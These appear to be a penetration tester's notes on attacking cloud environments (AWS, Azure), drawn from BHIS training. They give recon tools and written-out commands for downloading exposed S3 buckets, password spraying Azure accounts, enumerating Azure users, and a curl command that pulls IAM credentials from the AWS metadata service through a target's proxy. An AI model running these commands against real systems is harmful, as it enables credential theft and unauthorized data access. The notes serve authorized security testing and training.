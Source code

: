 # <h1 id="topheading">Cloud Pen Testing Tips</h1>

## Beau Bullock Notes:

Recon Tools Recon-NG
https://github.com/lanmaster53/recon-ng

OWASP Amass
https://github.com/OWASP/Amass

Spiderfoot
https://www.spiderfoot.net/

Gobuster
https://github.com/OJ/gobuster

Sublist3r
https://github.com/aboul3la/Sublist3r

DNS Brute Forcing:
https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

Now resolve all the domains you obtained and compare to cloud service netblock ranges

Azure Netblocks
Public: https://www.microsoft.com/en-us/download/details.aspx?id=56519
US Gov: http://www.microsoft.com/en-us/download/details.aspx?id=57063
Germany: http://www.microsoft.com/en-us/download/details.aspx?id=57064 China: http://www.microsoft.com/en-us/download/details.aspx?id=57062

AWS Netblocks
https://ip-ranges.amazonaws.com/ip-ranges.json

GCP Netblocks
Google made it complicated to get the current IP netblocks - there are scripts for this out there.

Determine username schema via public file Metadata (PDF, DOCX, XLSX, etc.)
PowerMeta
https://github.com/dafthack/PowerMeta

FOCA
https://github.com/ElevenPaths/FOCA

## Exploiting Misconfigured Cloud Assets
**Pacu S3 Enumeration**

Attempt to list S# contents:
aws s3 ls s3://<bucketname>/ --region <region>

Use the AWS cli to list out files in the S3 bucket
Pacu > aws s3 ls s3://glitchcloud

Download the files in the bucket
Pacu > aws s3 sync s3://glitchcloud s3-files-dir

## Key Discolsure in Public Repos

Search through not only current code but also commit history

GitLeaks
https://github.com/zricethezav/gitleaks

Gitrob
https://github.com/michenriksen/gitrob

Truffle Hog
https://github.com/dxa4481/truffleHog

**An AWS exploitation framework from Rhino Security Labs**
https://github.com/RhinoSecurityLabs/pacu
• Modules examples:
• S3 bucket discovery
• EC2 enumeration
• IAM privilege escalation • Persistence modules
• Exploitation modules
• And more...


**GitLeaks – Tool for searching Github or Gitlab repos**

Pull GitLeaks with Docker
~$ sudo docker pull zricethezav/gitleaks

Print the help menu
~$ sudo docker run --rm --name=gitleaks zricethezav/gitleaks --help

Use GitLeaks to search for secrets
~# sudo docker run --rm --name=gitleaks zricethezav/gitleaks -v -r https://github.com/zricethezav/gitleaks.git


**Password Spraying Attacks:**
MSOLSpray to do this:
https://github.com/dafthack/MSOLSpray

Next import MSOLSpray, and run the spray
PS> Import-Module .\MSOLSpray.ps1

PS> Invoke-MSOLSpray -UserList .\userlist.txt -Password [the password you set for your test account]

**AWS Instance Metadata URL**
IAM credentials can be stored here:
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAMRole Name>

Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS.
curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo

CapitalOne Hack
• Attacker exploited SSRF on EC2 server and accessed metadata URL to get IAM access keys. Then, used keys to dump S3 bucket containing 100 million individual’s data


WeirdAAL – Great tool for enumerating AWS access by Chris Gates
• https://github.com/carnal0wnage/weirdAAL

## Azure: User Information

Get the current user’s role assignment:
PS> Get-AzRoleAssignment

The below examples enumerate users and groups
PS> Get-MSolUser -All
PS> Get-MSolGroup –All
PS> Get-MSolGroupMember –GroupObjectId <GUID>

Pipe Get-MSolUser –All to format list to get all user attributes
PS> Get-MSolUser –All | fl

Recon can help identify the relationships between services such as WebApps and SQL
PS> Get-AzResource
PS> Get-AzResourceGroup

Start a new PowerShell window and import both the MSOnline and Az modules
PS> Import-Module MSOnline
PS> Import-Module Az

Authenticate to each service with your Azure AD account:
PS> Connect-AzAccount
PS> Connect-MsolService

Start a new PowerShell window and import both the MSOnline and Az modules
PS> Import-Module MSOnline
PS> Import-Module Az
Authenticate to each service with your Azure AD account:
PS> Connect-AzAccount
PS> Connect-MsolService
    © Offensive Tradecraft by BHIS @BHInfoSecurity
https://www.blackhillsinfosec.com

LAB: Azure Situational Awareness
• First get some basic Azure information Get- MSolCompanyInformation
• Some interesting items here are
• UsersPermissionToReadOtherUsersEnabled • DirSyncServiceAccount
• PasswordSynchronizationEnabled
• Address/phone/emails
PS> Get-MSolCompanyInformation
    © Offensive Tradecraft by BHIS @BHInfoSecurity
https://www.blackhillsinfosec.com

LAB: Azure Situational Awareness
• Next, we will start looking at the subscriptions associated with the account as well as look at the current context we are operating in. Look at the “Name” of the subscription and context for possible indication as to what it is associated with.
PS> Get-AzSubscription
PS> $context = Get-AzContext PS> $context.Name
PS> $context.Account

List out the users on the subscription. This is the equivalent of “net users /domain” in on-prem AD
PS> Get-MSolUser -All

The user you setup likely doesn’t have any resources currently associated with it, but these commands will help to understand the specific resources a user you gain access to has.
PS> Get-AzResource
PS> Get-AzResourceGroup

Breaching Cloud Perimeter with Beau Bullock:
https://www.blackhillsinfosec.com/breaching-the-cloud-perimeter-w-beau-bullock/
---
